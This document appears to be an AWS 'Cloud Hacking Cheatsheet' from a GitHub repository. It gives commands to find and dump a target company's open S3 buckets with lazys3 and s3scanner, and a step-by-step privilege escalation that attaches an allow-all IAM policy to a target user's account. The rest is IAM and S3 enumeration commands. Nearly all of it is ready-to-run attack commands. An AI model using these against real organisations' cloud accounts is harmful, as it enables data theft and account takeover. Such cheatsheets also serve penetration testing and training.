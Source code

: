 # Cloud Hacking Cheatsheet

## Amazon AWS

### Install awscli
```sh
pip3 install awscli
```

### S3 Bucket Enumeration

#### Search for public buckets from a company using lazys3
```sh
ruby lazys3.rb [COMPANY]
```
#### Search for public buckets from a company using s3scanner
```sh
python3 ./s3scanner.py sites.txt
```

#### Dump all open buckets and log both open and closed buckets using s3scanner
```sh
python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt
```

#### Save the file listings of all open buckets to a file using s3scanner
```sh
python ./s3scanner.py --list names.txt
```

### Escalate IAM User Privileges by Exploiting Misconfigured User Policy
```sh
vim user-policy.json
```

Insert:
```sh
{
    "Version": "2011-09-11",
    "Statement": [
        {

            "Effect": "Allow",

            "Action": "*",

            "Resource": "*"

        }
    ]
}
```

Attach the created policy (user-policy) to the target IAM user’s account:

```sh
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json

aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
```

### View user policies
```sh
aws iam list-attached-user-policies --user-name [Target Username]
```

### List users
```sh
aws iam list-users
```

### List buckets
```sh
aws s3api list-buckets --query "Buckets[].Name"
```

### List user policies
```sh
aws iam list-user-policies
```

### List role policies
```sh
aws iam list-role-policies
```

### List froup policies
```sh
aws iam list-group-policies
```

### Create user
```sh
aws iam create-user
```


